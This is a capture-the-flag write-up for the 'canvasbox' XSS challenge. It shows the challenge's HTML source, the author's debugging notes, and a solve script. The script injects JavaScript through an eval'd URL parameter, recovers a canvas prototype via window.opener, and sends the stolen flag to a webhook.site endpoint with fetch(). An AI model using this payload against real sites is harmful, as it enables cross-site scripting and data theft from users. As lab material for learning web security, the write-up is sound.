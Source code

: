 # canvasbox

## Challenge Description

A single page XSS challenge by `Ark`. The server also response with CSP header `Content-Security-Policy: base-uri 'none'; frame-ancestors 'none'`


## Challenge Source code
```html
<!DOCTYPE html>
<body>
  <h1>XSS Playground</h1>
  <script>
    (() => {
      const flag = localStorage.getItem("flag") ?? "this_is_a_flag";
      localStorage.removeItem("flag");

      const canvas = document.createElement("canvas");
      canvas.id = "flag";
      canvas.getContext("2d").font = `1px "${flag}"`; // :)
      document.body.appendChild(canvas);

      delete window.open;

      const removeKey = (obj, key) => {
        
        delete obj[key];
        if (key in obj) {
          Object.defineProperty(obj, key, {});
        }
        
      };

      for (const descriptor of Object.values(
        Object.getOwnPropertyDescriptors(window)
      )) {
        const value = descriptor.value;
        const prototype = value?.prototype;

        if (prototype instanceof Node || value === DOMParser) {
          // Delete all the properties
          for (const key of Object.getOwnPropertyNames(value)) {
            removeKey(value, key);
          }
          for (const key of Object.getOwnPropertyNames(prototype)) {
            removeKey(prototype, key);
          }
        }
      }
    })();

    const params = new URLSearchParams(location.search);
    const xss = params.get("xss") ?? "console.log(1337)";

    eval(xss); // Get the flag!
  </script>
</body>

```

## What did I do?

### Stuggle

First, of cuz popping `alert` boxes!

![](image-3.png)

In this challenge, we can only access `flag` via `canvas.getContext("2d").font`, however the `getContext` function, along with many other things were removed by the author.

I don't have `document.createElement`, `body.innerHTML`, not even `document.body`! The only way to work with this is to recover the `getContext` function from a webpage that is still intact.

After few hours of stuggle, I noticed the server failed to set `Cross-Origin-Opener-Policy` as it is served via unsecure HTTP connection, and the code specifically removed `window.open`. I wonder if this is a hint :O

### Solution

Reading some writeup, it seems that everyone is using `window.open` like the popup blocker doesn't exists (yes, it doesn't exists in the bot). With this function, we can create a new, unpolluted `document` and access the removed `getContext` function. Except that it is specifically removed in this challenge...

So instead, we can call `window.open` on our own website, and access the `document` via `window.opener`. After some try-and-error, I got this solve script:

## Solve Script

```html
<script>
  payload = `
    fetch("https://webhook.site/xxxxxxxxxxxx?inner")
    window.opener.location = "http://web:3000/404"
    setTimeout(()=>{
        window.opener.document.write("<canvas id=ff></canvas>")
        Object.setPrototypeOf(flag, window.opener.document.getElementById("ff").__proto__);
        fetch("https://webhook.site/xxxxxxxxxxxx?"+flag.getContext("2d").font)
    },1000);
  `
  window.open("http://web:3000/?xss=" + encodeURIComponent(payload))
</script>
<img src="https://webhook.site/xxxxxxxxxxxx?ready" />
```

## Some explanation to the code

![image](https://github.com/user-attachments/assets/a49e78a5-ab4b-47e5-8129-eb7a57ec26e8)

## Comments

This challenge was a `hard` challenge and I am very lucky to be able to solve it. Surprisingly, I couldn't solve the `easy` challenge "Slide Sandbox". Looking at the solve counts, seems everyone had the same thought. I wonder if I got the intended solution?

![](image-2.png)

Anyway, I think I won this game as I solved a `hard` challenge from `Ark` lol. Thanks!
